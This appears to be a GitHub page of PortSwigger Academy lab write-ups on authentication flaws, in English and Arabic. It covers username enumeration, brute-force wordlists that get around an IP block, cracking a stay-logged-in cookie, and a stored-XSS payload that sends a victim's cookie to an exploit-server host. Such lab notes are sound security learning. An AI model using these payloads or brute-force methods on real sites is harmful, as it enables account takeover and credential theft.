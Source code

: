 # Authentication vulnerabilities



<details>
  <summary>Lab: Username enumeration via different responses</summary>

> ### try invalid usernaem ``admin``

<img width="1030" height="436" alt="image" src="https://github.com/user-attachments/assets/ae7dc0ef-29c0-4040-95a1-7011a3012721" />

> ### try to bruteforce username and match ``Invalid username``

<img width="1604" height="553" alt="image" src="https://github.com/user-attachments/assets/25abcbc9-5139-4067-b66f-27aa66b63cb8" />

<img width="1277" height="469" alt="image" src="https://github.com/user-attachments/assets/2d856d21-4f13-420d-a978-5b3fd040ab66" />

### so now username is 

```
user
```

---

> ### now bruteforce the password:

<img width="1016" height="358" alt="image" src="https://github.com/user-attachments/assets/65292c04-6634-4f0a-befa-d58f1a5474c4" />

so passowrd is :

```
iloveyou
```

<img width="1341" height="617" alt="image" src="https://github.com/user-attachments/assets/77519529-471c-40f0-9f0a-7c447c705326" />





  
</details>






<details>
  <summary>Lab: 2FA simple bypass</summary>


<img width="1105" height="319" alt="image" src="https://github.com/user-attachments/assets/7fbed2c2-8e4d-4fd5-bbc8-7d820821a746" />


  
</details>




<details>
  <summary>Lab: Password reset broken logic</summary>


- > click reset password and check email box you will found link click on it if you try to remove token error will apper
  >
  > write new password and intercept the request now you can remove token and change user to carlos 



  
</details>





<details>
  <summary>Lab: Username enumeration via subtly different responses</summary>

```
✅ 4.Username enumeration via subtly different responses
الثغرة: التطبيق بيرجع رسائل خطأ مختلفة بشكل طفيف جدًا حسب إذا كان اليوزر موجود أو مش موجود.
مثلًا:

Invalid username or password. ← لو اليوزر مش موجود.

Invalid password or password ← لو اليوزر موجود.

الرسالة شكلها شبه بعض لكن فيها فرق بسيط جدًا، والمهاجم ممكن يلاحظه.
```



  
</details>







<details>
  <summary>Lab: Username enumeration via response timing</summary>

```
✅ 5. Username enumeration via response timing
الثغرة: الاختلاف في زمن الاستجابة لما يكون اليوزر موجود.

الاستغلال: لو زمن الاستجابة أطول مع يوزر معين → غالبًا موجود (لأن الباسورد بيتشيك بعده).


```

  
</details>






<details>
  <summary>Lab: Broken brute-force protection, IP block</summary>


```
افتح Burp Suite واعمل Proxy للـ login page.

جرب تدخل بيانات غلط 3 مرات وراء بعض:

لاحظ إن بعد 3 محاولات فاشلة بيظهر block للـ IP (مثلاً رسالة error أو delay).

جرب بعد محاولتين فاشلتين تعمل login ناجح بحسابك (wiener:peter):

هتلاحظ إن العداد بيرجع للصفر وتقدر تكمل المحاولات بدون block.
```

### ``usernames``

```
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
```

### ``passwords``

```
peter
123456
peter
password
peter
12345678
peter
qwerty
peter
123456789
peter
12345
peter
1234
peter
111111
peter
1234567
peter
dragon
peter
123123
peter
baseball
peter
abc123
peter
football
peter
monkey
peter
letmein
peter
shadow
peter
master
peter
666666
peter
qwertyuiop
peter
123321
peter
mustang
peter
1234567890
peter
michael
peter
654321
peter
superman
peter
1qaz2wsx
peter
7777777
peter
121212
peter
000000
peter
qazwsx
peter
123qwe
peter
killer
peter
trustno1
peter
jordan
peter
jennifer
peter
zxcvbnm
peter
asdfgh
peter
hunter
peter
buster
peter
soccer
peter
harley
peter
batman
peter
andrew
peter
tigger
peter
sunshine
peter
iloveyou
peter
2000
peter
charlie
peter
robert
peter
thomas
peter
hockey
peter
ranger
peter
daniel
peter
starwars
peter
klaster
peter
112233
peter
george
peter
computer
peter
michelle
peter
jessica
peter
pepper
peter
1111
peter
zxcvbn
peter
555555
peter
11111111
peter
131313
peter
freedom
peter
777777
peter
pass
peter
maggie
peter
159753
peter
aaaaaa
peter
ginger
peter
princess
peter
joshua
peter
cheese
peter
amanda
peter
summer
peter
love
peter
ashley
peter
nicole
peter
chelsea
peter
biteme
peter
matthew
peter
access
peter
yankees
peter
987654321
peter
dallas
peter
austin
peter
thunder
peter
taylor
peter
matrix
peter
mobilemail
peter
mom
peter
monitor
peter
monitoring
peter
montana
peter
moon
peter
moscow

```



<img width="1676" height="794" alt="image" src="https://github.com/user-attachments/assets/9922e3be-dddc-49af-a0f1-7e6fb80bf588" />


```
carlos : daniel
```

<img width="1313" height="602" alt="image" src="https://github.com/user-attachments/assets/6ef4ebcb-564a-410c-ab9a-39c3a6ce3213" />





  
</details>








<details>
   <summary>Lab: Brute-forcing a stay-logged-in cookie</summary>


### 🎱``8 Lab: Brute-forcing a stay-logged-in cookie``

- > first login with ``wiener:peter`` with stay logged in option and inturcept the request
  >
  > ``found``
  >
  > <img width="1167" height="424" alt="image" src="https://github.com/user-attachments/assets/098dcadc-95fb-436c-ae1d-fde1290cc3a4" />
  >
  > ```
  > Cookie: session=X2AecSWQYF3pEDwqbjSuG6FYLHSV6IGq; stay-logged-in=d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw
  > ```
  >
  > as you see ``stay-logged-in`` is decoded in **``base64``** when decode it found:
  >
  > ```
  > wiener:51dc30ddc473d43a6011e9ebba6ca770
  > ```
  >
  > ``structure of cookies``
  >
  > ```
  > base64(username:MD5(password))
  > ```
  >
  > ohh so this cookie have username and passowrd hashed in ``MD5`` after decrypt it found the password **``peter``**
  >
  > **``order is important``**
  >
  > <img width="1878" height="742" alt="image" src="https://github.com/user-attachments/assets/9f556feb-f647-4080-af43-767f6e5d969c" />
  > 
  > ![image](https://github.com/user-attachments/assets/d8ed9b02-4be1-4c3d-b40b-d4e1d4d1b8d9)
  >
  > 
  > 


   
  
</details>



















<details>
  <summary>Lab: Offline password cracking</summary>


### 9 offline password cracking 

- > first login with my username and passowrd ``wiener:peter`` with stay login button 
  >
  > found in cookie that is encoded in base64
  >
  > ``base64(username:md5(password))``
  >
  > now we know that comments is vuln to xss you will steal cookie of ``carlos`` by using xss
  >
  > in comment put
  >
  > ```
  > <script>document.location='https://exploit-0a1f000d0421311d80d80c4801090020.exploit-server.net/exploit'+document.cookie</script>
  > ```
  >
  > after that go to exploit server then logs you will find cookies of carlos
  >
  > ``Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz``
  >
  > ``carlos:26323c16d5f4dabff3bb136f2460a943``
  >
  > ``carlos:onceuponatime``

  
</details>
















<details>
  <summary>Lab: Password reset poisoning via middleware</summary>


1. login with ``wiener:peter``
2. signout
3. login with ``carlos``
4. click forget passowrd

  
</details>

































<details>
  <summary>Lab: Username enumeration via account lock</summary>

<img width="1480" height="804" alt="image" src="https://github.com/user-attachments/assets/558b88cf-ae67-439c-9ca5-caac98a2280e" />

```
carlos
carlos
carlos
carlos
carlos
root
root
root
root
root
admin
admin
admin
admin
admin
....
....

```

> ### SO USERNAME IS **`acceso`**


<img width="1543" height="738" alt="image" src="https://github.com/user-attachments/assets/2c27e85f-9d3b-4c07-b3b6-18f92347f884" />

> ### SO PASSWORD IS **`letmein`**

```
acceso : letmein
```

<img width="1779" height="845" alt="image" src="https://github.com/user-attachments/assets/e7e2dd78-6f7b-41bd-a779-ade23d51a0a8" />


  
</details>






























----- 

















































